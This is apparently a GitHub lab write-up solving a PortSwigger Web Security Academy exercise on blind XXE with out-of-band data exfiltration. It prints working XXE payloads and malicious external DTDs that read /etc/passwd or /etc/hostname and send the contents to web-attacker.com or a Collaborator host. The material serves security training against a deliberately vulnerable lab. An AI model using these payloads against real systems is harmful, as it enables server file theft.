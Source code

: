 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7ac3d0f2-66e3-4016-b19b-ed3298d5a8ae)

## Overview :

It involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request
to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```xml
http://web-attacker.com/malicious.dtd
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server. 

> This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity
> definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it
> will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead. 

## Solution :

Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/2
Host: 0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Cookie: session=2K3jJ6C0GNurtpvuyrqmYZYeIU1ITlX1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to solve the lab, we need to make the application to fetch our malicious DTD file with the payload to  retreive `/etc/hostname` & then send the exfiltrated data back to our server.

#### Steps -

1. The application parses the XML entitiy & tries to fetch the malicious DTD hosted at exploit server
2. Payload of exploit server gets executed. Means the application retreives the `/etc/hostname` of the vulnerable server.
3. THe vulnerable server now sends the exfiltrated data back to our collaborator server.

#### Craft the payload

In the request to check the stock, we can  insert the following external entity definition in between the XML declaration and the stockCheck element: 

```xml

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0acc002403a83477824bbaa9014100f7.exploit-server.net/exploit"> %xxe;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://r2uu93jk2x3ghi8xany21syo4fa5yu.oastify.com/?%file;'>">
%ent;
%exfiltrate;
```
Host this `malicious.dtd` file in our exploit server.

> NOTE- We need to send the exfiltrated data (**/etc/hostname**) back to our collaborator server. So provide colab server's address.



